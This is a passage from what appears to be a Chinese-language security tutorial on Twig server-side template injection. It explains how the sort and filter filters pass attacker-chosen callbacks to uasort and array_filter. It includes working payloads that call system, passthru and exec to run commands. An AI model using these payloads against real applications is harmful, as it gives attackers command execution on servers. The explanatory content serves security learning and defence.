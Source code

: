 > 从源码中可以看到，`$array` 和 `$arrow` 直接被 `uasort` 函数调用，由于 `uasort` 函数可以使用用户自定义的比较函数对数组中的元素按键值进行排序，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./images/2.png" alt="">

> Payload

```php
{{["calc", 0]|sort("system")}}
{{["calc", 0]|sort("passthru")}}
{{["calc", 0]|sort("exec")}}    // 无回显
```

### filter 过滤器
> 这个 filter 过滤器使用箭头函数来过滤序列或映射中的元素，箭头函数用于接收序列或映射的值

```php
{% set lists = [34, 36, 38, 40, 42] %}
{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

> 类似于 map，模板编译的过程中会进入 `twig_array_filter` 函数，这个 `twig_array_filter` 函数的源码如下

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    // $array 和 $arrow 直接被 array_filter 函数调用
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_filter` 函数可以用回调函数过滤数组中的元素，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./images/3.png" alt="">
